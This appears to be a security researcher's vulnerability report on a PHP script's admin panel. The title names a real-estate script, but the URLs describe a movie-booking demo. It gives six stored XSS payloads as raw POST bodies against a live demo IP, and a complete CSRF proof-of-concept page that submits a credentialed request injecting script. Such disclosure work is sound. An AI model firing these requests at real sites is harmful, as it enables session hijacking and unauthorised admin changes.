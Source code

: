 ### Advanced Real Estate Script   XSS/CSRF

Well, when I pentest the official demo site of Advanced Real Estate Script, I found some vulnerabilities here.


#### XSS:

There're some stored-xss in this system, for example:

##### XSS1


```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/sitesettings.php
```

POST para:
```
------WebKitFormBoundaryzlMIDdRcppEeHLfc
Content-Disposition: form-data; name="keyword"

Movie Ticket booking'"><svg/onload=alert(/sxss/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Vanguard/sxss1.png)

##### XSS2

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/manageownerlist.php?edit&usrid=51
```
POST para:
```
------WebKitFormBoundaryl1hkCrSGo6aWqBcA
Content-Disposition: form-data; name="contact"

9500702882'"><svg/onload=alert(/sxss2/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Vanguard/sxss2.png)

##### XSS3

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/eventlist.php?edit&eventid=45
```

POST para:
```
------WebKitFormBoundaryMGILA7nm2cy2SRx1
Content-Disposition: form-data; name="cast"

sivakarthikeyan'"><svg/onload=prompt(/sxss3/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Vanguard/sxss3.png)

##### XSS4

POST para:
```
------WebKitFormBoundarybSFVeH6LrfH6zOSG
Content-Disposition: form-data; name="moviename"

Tamizhan da Ennalum'"><svg/onload=alert(/sxss4/)><'"


```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Vanguard/sxss4.png)


##### XSS5

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/snacks_edit.php?sid=8
```


POST para:
```
------WebKitFormBoundaryfHHKnTbHD7iASd0w
Content-Disposition: form-data; name="snacks_name"

fsdfd'"><svg/onload=prompt(/sxss6/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Vanguard/sxss5.png)



##### XSS6

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/newsedit.php?newsid=7
```

POST para:
```
------WebKitFormBoundaryYD6kA6UVdLUiuSCp
Content-Disposition: form-data; name="newstitle"

News1'"><svg/onload=alert(/sxss7/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Vanguard/sxss6.png)


#### CSRF:

Because of no protection here, we can use csrf to attack users, or change something sensitively into the panel directly.
By the way ,I just found no protection in the user panel here.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/198.38.86.159\/~dineshkumarwork\/demo\/movie\/admin\/movieedit.php?movieid=134", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundarybSFVeH6LrfH6zOSG");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"moviename\"\r\n" + 
          "\r\n" + 
          "Tamizhan da Ennalum\'\"\x3e\x3csvg/onload=alert(/sxss4/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"mov_id\"\r\n" + 
          "\r\n" + 
          "134\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"mov_img\"\r\n" + 
          "\r\n" + 
          "movie06122017-688.jpg\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"ban_img\"\r\n" + 
          "\r\n" + 
          "banner06122017-395.jpg\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"language\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"actor\"\r\n" + 
          "\r\n" + 
          "vaishali, vaisnavi,\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"musicdirector\"\r\n" + 
          "\r\n" + 
          "Manimaran\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"director\"\r\n" + 
          "\r\n" + 
          "Vignesh\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"producer\"\r\n" + 
          "\r\n" + 
          "Winston\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"runtime\"\r\n" + 
          "\r\n" + 
          "2\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"runmints\"\r\n" + 
          "\r\n" + 
          "6\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"trailerlink\"\r\n" + 
          "\r\n" + 
          "www.phpscriptsmall.com\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"trailerlink2\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"description\"\r\n" + 
          "\r\n" + 
          "\x3cp\x3efds\x3c/p\x3e\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"rating\"\r\n" + 
          "\r\n" + 
          "U\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"movieimage\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"bannerimage\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"release_date\"\r\n" + 
          "\r\n" + 
          "2017-12-06\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"end_date\"\r\n" + 
          "\r\n" + 
          "2017-12-09\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Submit\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>



```

